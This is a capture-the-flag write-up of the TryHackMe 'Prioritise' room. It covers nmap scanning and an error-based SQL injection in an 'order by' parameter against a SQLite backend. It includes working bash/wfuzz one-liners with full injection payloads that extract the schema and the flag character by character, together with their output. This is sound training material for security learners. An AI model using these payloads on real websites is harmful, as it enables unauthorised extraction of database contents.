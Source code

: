 ```yaml
---
title: Prioritise TryHackMe Writeup
tags: [writeup, tryhackme, sqli, wfuzz, orderby]
style: border
color: success
description: ""
---
```


![logo](../assets/img/prioritise-tryhackme-writeup/1.jpg)

## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
> nmap -sVC -p- --min-rate 5000 prioritise.thm -Pn -n -oN nmap-prioritise.thm
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:15 CEST
WARNING: Service 10.10.247.170:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for prioritise.thm (10.10.247.170)
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 51fe13747bbc526a883d21d1b3bf13ad (RSA)
|   256 73fef7fdedf492bde2997188f855b28f (ECDSA)
|_  256 f848693d7f199f03166337369f84a87a (ED25519)
80/tcp open  rtsp
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5082
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/font-awesome.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap-datepicker.min.css"
|     crossorigin="anonymous"
|     <title>Prioritise</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">Prioritise</span></a>
|     <button
|     class="na
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
|_http-title: Prioritise
```

## Enumeration
We access the website, no credentials are required and we can create and order items.

![](../assets/img/prioritise-tryhackme-writeup/2.png)

Here the filter is shown, there are not many objects on the website, so the *SQL Injection* exploit has to be around here.

![](../assets/img/prioritise-tryhackme-writeup/3.png)

After several tests (which were not few), we found a possible exploitation based on error and from the parameter "*order*" (Think of this 'order', as an "order by <item>").

![](../assets/img/prioritise-tryhackme-writeup/4.png)

I tried increasing the *id* (*e.g. 4*), but when I set *5*, the server returned an error. So here I could realize that if it existed, the server did not return a 500 error.

![](../assets/img/prioritise-tryhackme-writeup/5.png)

Once we already had the possible exploitation path, the next step was to think of a way to know the backend, since tools like **SQLMap** didn't work (or at least I couldn't make it work).
So I thought, it would still have to return a *500 error* if it didn't exist and it didn't in the case of the next payload, in which I was able to find out that it was a *SQLite*:

![](../assets/img/prioritise-tryhackme-writeup/6.png)

## Exploitation
So I searched for tutorials and information about possible *SQL injection* attacks based on "*order by*", I found the following from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#boolean---extract-info-order-by)

Once I had the right payload, I set up a one liner with bash and the **wfuzz** tool, I generated a dictionary with letters (upper and lower case) and numbers, I also set up a loop to iterate the positions and finally I filtered those answers with code 404 or 500, so I assumed that all 200 and in the right order would be the correct ones... And so it was!

```bash
> for i in {1..40}; do wfuzz -c --hc 404,500 -w alphanums.txt "http://prioritise.thm/?order=(CASE+WHEN+(SELECT+hex(substr(sql,$i,1))+FROM+sqlite_master+WHERE+type%3d'table'+and+tbl_name+NOT+like+'sqlite_%25'+limit+1+offset+0)+%3d+hex('FUZZ')+THEN+id+ELSE+load_extension(0)+END)" 2>/dev/null | grep -i 200 && echo ""; done
000000029:   200        187 L    273 W      5082 Ch     "C"                        
000000044:   200        187 L    273 W      5082 Ch     "R"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000027:   200        187 L    273 W      5082 Ch     "A"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000027:   200        187 L    273 W      5082 Ch     "A"                        
000000028:   200        187 L    273 W      5082 Ch     "B"                        
000000038:   200        187 L    273 W      5082 Ch     "L"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000020:   200        187 L    273 W      5082 Ch     "t"                        
000000015:   200        187 L    273 W      5082 Ch     "o"                        
000000004:   200        187 L    273 W      5082 Ch     "d"                        
000000015:   200        187 L    273 W      5082 Ch     "o"                        
000000019:   200        187 L    273 W      5082 Ch     "s"                        
000000009:   200        187 L    273 W      5082 Ch     "i"                        
000000004:   200        187 L    273 W      5082 Ch     "d"                        
000000035:   200        187 L    273 W      5082 Ch     "I"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000033:   200        187 L    273 W      5082 Ch     "G"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000044:   200        187 L    273 W      5082 Ch     "R"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000041:   200        187 L    273 W      5082 Ch     "O"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000047:   200        187 L    273 W      5082 Ch     "U"                        
000000038:   200        187 L    273 W      5082 Ch     "L"
```
In the previous example, I increased the number of positions, as I was getting all the rows on the same line, so I had to be patient to get the tables and rows numbered correctly.

Finally, I assembled the last one liner to get the flag and complete the challenge:

#### Final - Obtaining the flag
```bash
> for i in {1..40}; do wfuzz -c --hc 404,500 -w alphanums.txt "http://prioritise.thm/?order=(CASE%20WHEN%20(SELECT%20hex(substr(flag,$i,1))%20FROM%20flag)%20=%20hex('FUZZ')%20THEN%20id%20ELSE%20load_extension(0)%20END)" 2>/dev/null | grep -i 200 && echo ""; done
000000006:   200        187 L    273 W      5082 Ch     "f"                        
000000012:   200        187 L    273 W      5082 Ch     "l"                        
000000001:   200        187 L    273 W      5082 Ch     "a"                        
000000007:   200        187 L    273 W      5082 Ch     "g"                        
000000059:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000061:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000056:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000062:   200        187 L    273 W      5082 Ch     "*"                        
000000057:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000056:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000060:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000059:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000061:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"
```

Mission completed!!!

![](../assets/img/prioritise-tryhackme-writeup/7.png)
